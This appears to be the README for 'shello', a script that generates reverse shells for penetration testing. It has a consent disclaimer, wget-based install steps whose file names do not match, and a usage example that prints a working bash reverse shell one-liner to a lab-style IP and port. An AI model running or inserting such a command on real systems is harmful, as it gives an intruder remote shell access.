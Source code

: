 # shello
A small script to generate reverse shells.

![image](https://user-images.githubusercontent.com/63207324/210773410-1e0baa45-187e-4955-8ed1-ed390951296f.png)

### Disclaimer:
This tool is only for testing and academic purposes and can only be used where strict consent has been given. Do not use it for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this tool and software.

### Installation:

```shell
$ wget https://raw.githubusercontent.com/Yuma-Tsushima07/shello/main/shello
$ chmod +x shello.sh
```

### Usage:

```shell
$ ./shello.sh
```
Choose a reverse shell which you want then specify your `LHOST` and `LPORT`:
![image](https://user-images.githubusercontent.com/63207324/210773593-ab49d902-d61d-452d-b650-c7575da3c266.png)

```sh
[+] Select an Option:  1

[ + ] Enter LHOST:   10.10.10.10

[ + ] Enter LPORT:  9001

[*] Your Bash-i Shell:  
sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

